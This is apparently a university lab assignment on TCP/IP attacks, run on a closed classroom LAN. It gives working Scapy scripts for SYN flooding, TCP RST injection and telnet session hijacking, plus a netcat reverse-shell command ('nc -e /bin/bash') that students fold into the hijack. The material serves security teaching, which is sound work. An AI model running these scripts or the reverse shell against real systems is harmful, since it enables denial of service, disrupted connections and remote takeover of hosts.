




# Module 15: TCP/IP Attack

* Put your answers in the `README.md` file in the GitHub repository.
* Github Classroom Link: [https://classroom.github.com/a/3f2SVfwo](https://classroom.github.com/a/3f2SVfwo)


## Overview

The learning objective of this module is for you to gain first-hand experience with TCP/IP vulnerabilities, as well as on attacks against these vulnerabilities. The vulnerabilities in the TCP/IP protocols represent a special genre of vulnerabilities in protocol designs and implementations; they provide an invaluable lesson as to why security should be designed in from the beginning, rather than being added as an afterthought. Moreover, studying these vulnerabilities will help you understand the challenges of network security and why many network security measures are needed.
In this module, you will conduct several attacks on TCP. This module covers the following topics:

- The TCP protocol
- TCP SYN flood attack, and SYN cookies
- TCP reset attack
- TCP session hijacking attack
- Reverse shell


## Setup

In this module, we will use five machines that are connected to the same LAN. Figure 1 depicts the module environment setup. 



__Figure 1.__ Local Area Network

- __Host:__ cmsc334-1  __IP:__ 172.18.123.6
- __Host:__ cmsc334-2  __IP:__ 172.18.123.5
- __Host:__ cmsc334-3  __IP:__ 172.18.122.11
- __Host:__ cmsc334-4  __IP:__ 172.18.122.10
- __Host:__ cmsc334-5  __IP:__ 172.18.123.7


## Task 1: SYN Flooding Attack

Note: 
- Use cmsc334-1 as the target host to attack with your __SYN__ packets.
- Use cmsc334-2 as the host that you will use to `telnet` into cmsc334-1.
- Use cmsc334-3, cmsc334-4, cmsc334-5 as the hosts that you will use to launch your __SYN__ attack.


__SYN__ flood is a form of DoS attack in which attackers send many __SYN__ requests to a victim's TCP port, but the attackers have no intention to finish the 3-way handshake procedure. Attackers either use spoofed IP address or do not continue the procedure. Through this attack, attackers can flood the victim’s queue that is used for half-opened connections, i.e. the connections that has finished __SYN__, __SYN/ACK__, but has not yet
gotten a final __ACK__ back. When this queue is full, the victim cannot take any more connection. Figure 2 illustrates the attack.



__Figure 2.__ SYN Flooding Attack


The size of the queue has a system-wide setting. You can check the setting using the following command. The OS sets this value based on the amount of the memory the system has: the more memory the machine has, the larger this value will be.

```shell
$ sysctl net.ipv4.tcp_max_syn_backlog
```

You can use command `netstat -nat` to check the usage of the queue, i.e., the number of half-opened connections associated with a listening port. The state for such connections is __SYN-RECV__. If the 3-way handshake is finished, the state of the connections will be __ESTABLISHED__.

SYN Cookie Countermeasure: By default, the SYN flooding countermeasure is turned on. This
mechanism is called SYN cookie. It will kick in if the machine detects that it is under the SYN flooding attack. I have already turned it off. You can use the following `sysctl` command to turn it on and off:


- Display the __SYN__ cookie flag
    ```shell
    $ sudo sysctl -a | grep syncookies 
    ```

- Turn off __SYN__ cookies
    ```shell
    $ sudo sysctl -w net.ipv4.tcp_syncookies=0 
    ```

- Turn on __SYN__ cookies
    ```shell
    $ sudo sysctl -w net.ipv4.tcp_syncookies=1
    ```

### Task 1.1: Launching the Attack Using Python

I have provided a Python program called __synflood.py__. This code sends out spoofed TCP __SYN__ packets, with randomly generated source IP address, source port, and sequence number. You should use the code to launch the attack on the target machine:

__synflood.py__
```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
from random import randint

ip = IP(dst="172.18.123.6")    # Attack cmsc334-1, port 23 the telnet port
tcp = TCP(dport=23, flags='S') # 'S' flag is for SYN packet
pkt = ip/tcp

# Continiously send synchronize (SYN) request, but don't answer the SYN/ACK.
while True:
    pkt[IP].src = "172.18.123." + str(randint(2, 254))  # source IP
    pkt[TCP].sport = getrandbits(16)                    # source port
    pkt[TCP].seq = getrandbits(32)                      # sequence number
    send(pkt, verbose = 0)
```

Let the attack run for at least one minute, then try to telnet into the victim machine, and see whether you can succeed.

```shell
$ chmod u+x synflood.py
$ sudo su
# ./synflood.py
```

In another terminal window `ssh cmsc334-2` then try telnet. 
```shell
$ telnet x-mcs-cmsc334-1
```

Very likely that your attack will fail. Multiple issues can contribute to the failure of the attack. They are listed in the following with guidelines on how to address them.

- __TCP cache issue:__ See Note A below.
- __TCP retransmission issue:__ After sending out the __SYN/ACK__ packet, the victim machine will wait for the __ACK__ packet. If it does not come in time, TCP will retransmit the __SYN/ACK__ packet. How many times it will retransmit depends on the following kernel parameters (by default, its value is 5):
    ```shell    
    $ sudo sysctl net.ipv4.tcp_synack_retries
    ```
After these 5 retransmissions, TCP will remove the corresponding item from the half-open connection queue. Every time when an item is removed, a slot becomes open. Your attack packets and the legitimate telnet connection request packets will fight for this opening. Our Python program may not be fast enough, and can thus lose to the legitimate telnet packet. To win the competition, we can run multiple instances of the attack program in parallel. Please try this approach and see whether the success rate can be improved. How many instances should you run to achieve a reasonable success rate?

- __The size of the queue:__ How many half-open connections can be stored in the queue can affect the success rate of the attack. The size of the queue be adjusted using the following command:
    ```shell
    # sysctl -w net.ipv4.tcp_max_syn_backlog=80
    ```
While the attack is ongoing, you can run one of the following commands on the victim container to see how many items are in the queue. It should be noted that one fourth of the space in the queue is reserved for "proven destinations" (see Note A below), so if we set the size to 80, its actual capacity is about 60.
    ```shell
    $ netstat -tna | grep SYN_RECV | wc -l
    $ ss -n state syn-recv sport = :23 | wc -l
    ```

Please reduce the size of the half-open connection queue on the victim server, and see whether your success rate can improve.

__Note A:__ A kernel mitigation mechanism. If machine X has never made a TCP connection to the victim machine, when the SYN flooding attack is launched, machine X will not be able to telnet into the victim machine. However, if before the attack, machine X has already made a telnet (or TCP connection) to the victim machine, then X seems to be "immune" to the SYN flooding attack, and can successfully telnet to the victim machine during the attack. It seems that the victim machine remembers past successful connections, and uses this memory when establishing future connections with the "returning" client. This is due to a mitigation of the kernel: TCP reserves one fourth of the backlog queue for "proven destinations" if SYN Cookies are disabled. After making a TCP connection from a host to the server, we can see that the IP address is remembered (cached) by the server, so they will be using the reserved slots when connections come from them, and will thus not be affected by the SYN flooding attack. To remove the effect of this mitigation method, we can run the `ip tcp_metrics flush` command on the server.

```shell
# sudo su
# ip tcp_metrics show
# ip tcp_metrics flush
```

- In the `README.md` file for this module explain how the __synflood.py__ Python script works and the results of your experiment. 


## Task 2: TCP RST Attacks on telnet Connections

The TCP __RST__ Attack can terminate an established TCP connection between two victims. For example, if there is an established `telnet` connection (TCP) between two users A and B, attackers can spoof a __RST__ packet from Host A to Host B, breaking this existing connection. To succeed in this attack, attackers need to correctly construct the TCP __RST__ packet. In this task, you need to launch a TCP __RST__ attack from Host A to break an existing `telnet` connection between Host A and Host B. To simplify the module, we assume that the attacker and the victim are on the same LAN, i.e., the attacker can observe the TCP traffic between Host A and Host B.

Launching the attack. Please use Scapy to conduct the TCP __RST__ attack. Python code is provided in the following, which will launch the attack automatically. The code will we get parameters from sniffed packets, so the attack is automated. 

__rst_attack.py__
```python
#!/usr/bin/env python
from scapy.all import *

# cmsc334-1 : 172.18.123.6
# cmsc334-2 : 172.18.123.5

def reset(pkt):
    sniffed_tcp = pkt[TCP]

    ip = IP(src="172.18.123.6", dst="172.18.123.5")
    tcp = TCP(sport=sniffed_tcp.dport, dport=sniffed_tcp.sport, flags="R", seq=sniffed_tcp.ack)  # R flag is the reset RST
    pkt = ip/tcp
    ls(pkt)

    send(pkt, verbose=0)

# Setup a filter to capture telnet traffic between Host A and Host B.
tcpFilter = 'tcp and src host 172.18.123.5 and dst host 172.18.123.6 and dst port 23'

# Sniff for a packet and call the reset function when a packet is found.
sniff(iface='eth0', filter=tcpFilter, prn=reset) 
```

First `telnet` from __Host B__ (cmsc334-2) to __Host A__ (cmsc334-1)
```shell
$ telnet x-mcs-cmsc334-1
```
- Login with __user:__ testuser with __password:__ testuser


On __Host A__ (cmsc334-1)  run the __rst_attack.py__ Python script.
```shell
$ chmod u+x rst_attack.py
$ ./rst_attack.py
```

Verify that the `telnet` connection was dropped.

- In the `README.md` file for this module explain how the __rst_attack.py__ Python script works and the results of your experiment. 


## Task 3: TCP Session Hijacking



__Figure 3.__ TCP Session Hijacking Attack

The objective of the TCP Session Hijacking attack is to hijack an existing TCP connection (session) between two victims by injecting malicious contents into this session. If this connection is a `telnet` session, attackers can inject malicious commands (e.g. deleting an important file) into this session, causing the victims to execute the malicious commands. Figure 3 depicts how the attack works. In this task, you need to demonstrate how you can hijack a `telnet` session between two computers. Your goal is to get the `telnet` server to run a malicious command from you. For the simplicity of the task, we assume that the attacker and the victim are on the same LAN.

Launching the attack. Please use Scapy to conduct the TCP Session Hijacking attack. Python code is provided in the following: (Change the name of the file `/tmp/test1234` in the program below to a unique name.)

__tcp_hijack.py__
```Python
#!/usr/bin/env python
from scapy.all import *

# cmsc334-1 : 172.18.123.6
# cmsc334-2 : 172.18.123.5

def hijack(pkt):
    sniffed_ip = pkt[IP]
    sniffed_tcp = pkt[TCP]
    newseq = sniffed_tcp.seq + 10
    newack = sniffed_tcp.ack + 1

    ip = IP(src="172.18.123.5", dst="172.18.123.6")
    tcp = TCP(sport=sniffed_tcp.sport, dport=23,
              flags="A", seq=newseq, ack=newack)  # A flag is the acknowledgement ACK
    
    data = "\ntouch /tmp/test1234\n"
    pkt = ip/tcp/data

    ls(pkt)

    send(pkt, verbose=0)

tcpFilter = 'tcp and src host 172.18.123.5 and dst host 172.18.123.6 and dst port 23'
sniff(iface='eth0', filter=tcpFilter, prn=hijack)
```

First `telnet` from __Host B__ (cmsc334-2) to __Host A__ (cmsc334-1)
```shell
$ telnet x-mcs-cmsc334-1
```
- Login with __user:__ testuser with __password:__ testuser


On __Host B__ (cmsc334-2) run the __tcp_hijack.py__ Python script.
```shell
$ chmod u+x tcp_hijack.py
$ ./tcp_hijack.py
```

- In the `README.md` file for this module explain how the __tcp_hijack.py__ Python script works and the results of your experiment. 


## Task 4: Creating Reverse Shell using TCP Session Hijacking

When attackers are able to inject a command to the victim’s machine using TCP session hijacking, they are not interested in running one simple command on the victim machine; they are interested in running many commands. Obviously, running these commands all through TCP session hijacking is inconvenient. What attackers want to achieve is to use the attack to set up a back door, so they can use this back door to conveniently conduct further operations.

A typical way to set up back doors is to run a reverse shell from the victim machine to give the attack the shell access to the victim machine. Reverse shell is a shell process running on a remote machine, connecting back to the attacker's machine. This gives an attacker a convenient way to access a remote machine once it has been compromised. In the following, we will show how we can set up a reverse shell if we can directly run a command on the victim machine (i.e. the server machine). In the TCP session hijacking attack, attackers cannot directly run a command on the victim machine, so their jobs is to run a reverse-shell command through the session hijacking attack. In this task, you need to demonstrate that they can achieve this goal. To have a bash shell on a remote machine connect back to the attacker's machine, the attacker needs a process waiting for some connection on a given port. In this example, we will use netcat. This program allows us to specify a port number and can listen for a connection on that port. In the following demo, we show two windows, each one is from a different machine. The top window is the attack machine 172.18.123.5 (cmsc334-2), which runs netcat (`nc` for short), listening on port 1234. The bottom window is the victim machine 172.18.123.6 (cmsc334-1), and we type the reverse shell command. As soon as the reverse shell gets executed, the top window indicates that we get a shell. This is a reverse shell, i.e., it runs on 172.18.123.6 (cmsc334-1).





__Figure 4.__ Reverse shell using the netcat command `nc`


In summary, `nc -e /bin/bash 172.18.123.5 1234` starts a bash shell, with its input coming from a netcat connection. Test this out yourself, but __select a random port__ from (1000 - 5000). 

In the demo shown above, when the bash shell command is executed on 172.18.123.6 (cmsc334-1), it connects back to the `netcat` process started on 172.18.123.5 (cmsc334-2). This is confirmed via the "connect to [172.18.123.5] from x-mcs-cmsc334-1.richmond.edu [172.18.123.6] 33584" message displayed by `netcat`. The description above shows how you can set up a reverse shell if you have the access to the target machine, which is the `telnet` server in our setup, but in this task, you do not have such an access. Your task is to launch an TCP session hijacking attack on an existing `telnet` session between a user and the target server. You need to inject your malicious command into the hijacked session, so you can get a reverse shell on the target server. 

_ Modify the Python program __tcp_hijack.py__ from task 3 to open a reverse shell, include this program in your GitHub repository.

- In the `README.md` file for this module explain how your modified version of __tcp_hijack.py__ Python script works and the results of your experiment. 


